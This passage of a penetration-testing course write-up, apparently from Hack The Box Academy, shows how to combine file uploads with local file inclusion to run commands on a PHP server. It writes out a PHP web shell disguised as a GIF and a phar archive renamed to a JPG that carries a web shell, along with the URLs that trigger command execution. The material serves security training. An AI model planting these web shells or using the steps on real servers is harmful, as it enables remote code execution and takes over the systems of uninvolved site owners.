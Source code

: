 #### Crafting Malicious Image
Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image. So, we will use an allowed image extension in our file name (e.g. `shell.gif`), and should also include the image magic bytes at the beginning of the file content (e.g. `GIF8`), just in case the upload form checks for both the extension and content type as well. We can do so as follows:

```shell-session
ShibuShivansh@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

#### Uploaded File Path
Once we've uploaded our file, all we need to do is include it through the LFI vulnerability. To include the uploaded file, we need to know the path to our uploaded file. In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL. In our case, if we inspect the source code after uploading the image, we can get its URL:

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

And then on visiting on this below website, we'll get our output for the command : `http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id`

## Phar Upload

Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:

Code: php

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:

  LFI and File Uploads

```shell-session
ShibuShivansh@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now, we should have a phar file called `shell.jpg`. Once we upload it to the web application, we can simply call it with `phar://` and provide its URL path, and then specify the phar sub-file with `/shell.txt` (URL encoded) to get the output of the command we specify with (`&cmd=id`), as follows:

![Shipping containers and cranes at a port with user data information displayed.](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)
